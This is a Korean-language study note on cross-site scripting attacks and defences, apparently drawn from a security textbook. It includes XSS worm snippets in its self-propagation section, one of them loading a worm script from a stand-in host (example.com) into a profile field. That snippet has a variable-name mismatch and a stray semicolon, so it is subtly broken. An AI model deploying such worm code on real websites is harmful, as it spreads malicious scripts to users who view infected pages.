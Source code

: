 ```yaml
---
title: Cross-Site Scripting Attack
tags: XSS Web-Hacking Cybersecurity
key: page-xss_attack
categories: [Cybersecurity, Web Security]
author: hyoeun
mathjax: true
mathjax_autoNumber: true
---
```


## The Cross-Site Scripting Attack
* Attacker가 victim's browser에 code를 inject시키면 공격을 할 수 있는데 victim이 attacker의 page에 접속할때마다 그 공격이 이루어질 수 있는 것이다. 하지만 sandbox protection 때문에 그 공격이 이루어지지 않는다.
* 하지만 target page에 공격 코드를 inject시키면 공격을 성공시킬 수 있는데 이것을 cross-site scripting(xss) attack이라고 부르는 것이다.
* 기본적으로 어떤 웹사이트에서 온 코드는 그 웹사이트에 관해서는 다 신뢰하고 실행하게 된다. 따라서 이 공격을 통해 그 웹사이트와 연관된 쿠키를 수정하거나 또 다른 리퀘스트를 날리거나 뭐든지 할 수 있는것이다. 특히 active session을 가지고 있으면 어떠한 것도 그 웹사이트 안에서는 다 허용한다.
* 따라서 공격자가 target website에 코드를 심어서 공격을 하는 것이다.
<br><br>

## Persistent(Stored) XSS Attack
* 악성 스크립트가 포함된 User input이 타겟 서버에 페이로드로써 저장되어 그 페이로드가 포함된 애플리케이션 부분에 액세스 하는 모든 사람이 악성 스크립트를 트리거 하게 되는 공격입니다.
* 예를들어 공격자가 자신의 프로필 수정란에 script code를 기입하고 그것을 db에 저장시킨다음 다른 사람들이 그 프로필을 보게 되면 injecte된 script code를 보게 되면서 그것을 실행하게 된다. 이것은 서버측에서 data로 저장할때 HTML markup을 제대로 sanitized하지 않았기 때문에 생기는 허점이다.
* 브라우저는 이러한 코드들을 서버에서 만든건지 다른 사람이 만든건지 구별할 수 없기 때문에 그 코드를 user의 privilege로 실행시켜버린다.
<br><br>

## Non-persistent(Reflected) XSS Attack
* 웹 애플리케이션이 request에 포함된 user input을 안전하게 sanitize를 하지 않고 악성 스크립트가 있는 채로 response를 해 악성 스크립트가 클라이언트에서 실행되는 공격기법이다.
* 주로 사용자에게 악성 URL을 배포하여 사용자가 그것을 클릭하도록 유도하여 클릭한 사용자의 브라우저에서 악성 스크립트가 실행되도록 한다.
<br><br>

## Dom-based XSS
* 공격자가 DOM에 페이로드를 주입해서 피해자의 브라우저가 HTML 페이지를 로드 할 때마다 악성 스크립트가 DOM 생성의 일부로 실행되면서 공격하는 기법이다. 페이지 자체는 변하지 않으나, 페이지에 포함되어 있는 브라우저측 코드가 DOM 환경에서 악성코드로 실행된다.
* 앞선 타입과는 다르게 서버와 관계없이 브라우저에서 발생하는 것이 차이점이다.
<br><br>

## What damage can XSS cause?
* Web defacing: JS code는 DOM APIs를 쓸 수 있기 때문에 hosting page의 DOM을 생산 혹은 제거, 변경 같은 것을 가능하게 하여 fake page를 만들수도 있고 형태 자체를 바꿔버릴 수 있다.
* Spoofing requests: JS code는 HTTP request도 가능하기 때문에 우리가 지금까지 얘기한것들의 예들로 fake user로 접근하여 서버에 fake user신분으로 의도치 않은 일들을 할 수 있다.
* Stealing information: Victim's private data(session cookie, 개인 정보 등)를 공격자에게로 쉽게 보낼 수 있다.
<br><br>

## XSS Attacks in Action
* 공격에 앞서 우선 target website가 어떤식으로 작동하는지를 우리가 코드를 심고자 하는 행위를 실행했을 때 HTTP header를 분석하면서 url 같은 것을 확인하고 이용한다.
* 공격할때는 스펠링 하나하나 잘 확인해야하고 target site마다 가지는 특성에 따라 공격 코드가 다 달라지기 때문에 정형화한 방식을 알려주기는 힘들다.
* 분석한 액션에 대한 url 분석만 잘 마치면 그 url의 패턴들에 따라 내용만 잘 넣어서 Ajax로 open(), setRequestHeader(), send()와 같은 함수들을 잘만 사용하면 공격에 성공할 수 있을 것이다.
<br><br>

## Achieving Self-Propagation
* 진짜 worm처럼 자가번식하면서 malware code를 퍼트리려면 DOM APIs를 통한 방식과 src attribute를 이용하여 link로 퍼트리는 방식이 있다.
### DOM Approach
* 웹 페이지가 만들어질때에는 브라우저측에서 Document Object Model(DOM)을 생성한다.
* DOM은 각 페이지의 내용들을 DOM nodes형태로 tree를 구성한다.
* 이 방식으로 공격할때에는 우리는 JS code를 DOM API를 통해 node 이름(id)을 부여하고 document.getElementByID()를 통해 그 노드를 불러오기만 하면 공격할 수 있다. 별거 없고 그냥 API 쓰면 DOM 접근 방식인거다. 코드를 다시 쓰는게 아니라 elegance하게 DOM API로 불러서 그 전체 코드를 content에 실어서 보내면 된다.
    ```javascript
    <script id="worm">

    // Use DOM API to get a copy of the content in a DOM node.
    var strCode = document.getElementById("worm").innerHTML;

    // Displays the tag content
    alert(strCode);

    </script>
    ```
### Link Approach
* 이거는 js파일을 그대로 불러서 src에다가 넣는것이다.
    ```javascript
    var warmCode = encodeURIComponent(
        "<script type=\"text/javascript\" "
        + "src=\"http://example.com/xss_worm.js\">";
        + "</" + "script>");

    // Set the content for the description field(이거는 특정 웹사이트에서 적용하는 방식을 이용한 것일뿐.)
    var desc="&description=SAMY is MY HERO" + wormCode;

    //(the rest of the code is the same as that in the previous approach)
    ..
    ```
* 위의 방식으로 js 파일(worm)을 넣기만 하면 된다.
* 위에서 </ script> 부분을 따로 스트링 처리 하는 이유는 만약 한 곳에 처리해버리면 firefox같은 브라우저는 하나로 인식해서 제대로 코드 전달이 안되기 때문이다. 브라우저 파싱 방식에 따라 달라질 것이다.
<br><br>

## Preventing XSS attacks
* XSS가 생기는 이유는 data와 code를 분리하지 않아서이다.
* 하지만 HTML markup을 지원하는 입장에서 분리하는게 결코 쉬운일은 아니다.
* user input으로 부터 코드를 없애거나 가능하면 그것을 ineffective하게 바꾸는 2가지의 방식이 있다. 보통 아래 2가지 방법을 섞어서 XSS를 예방한다.
* IPS, IDS, 방화벽으로도 방지할 수 없기 때문에 단순히 문자를 필터링 하는 것과 같은 방법만이 존재한다.

### Filter Approach
* user input으로 부터 코드를 지운다는 것인데 이게 쉽지 않다.
* script 태그 외에 여러가지 방법으로 javascript를 작동시킬 수 있는 방법들이 존재한다.
* 이건 만드는게 쉽지 않기 때문에 jsoup와 같은 오픈소스 코드를 사용해도 좋다.

### Encoding Approach
* Code들을 브라우저가 볼 수 있는 방식(\&\lt; 같이 < 대신에 보여지는 방식)으로 바꾸는 것이다.
* 브라우저가 representations하는 방식이 된다는 것은 코드는 실행되지 않는다는 것을 의미한다.

### 생각해볼 문제
* 위 방식들을 사용할 경우 white list가 나을것인가 black list가 나을 것인가?
* 경우에 따라 각각 다르겠지만 white list가 일반적으로 작성하기 쉽고(알파벳과 숫자 혹은 특수문자 몇개 정도만 허용하게 하면 된다.) 사용자가 예상 범위 안에서 사용할 수 있게 만들 수 있어서 좀 더 나을 수 있다.

### Content Security Policy(CSP) 사용
* 스크립트 실행에 대한 정책을 설정해 예방하는 방법. 어떤 웹 리소스만 허용할지 정의.
* 출처가 자기 서버인 스크립트만 실행 될 수 있도록 한다.  

## Refrence
* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)
* [설명이 풍부한 자료](https://excess-xss.com/)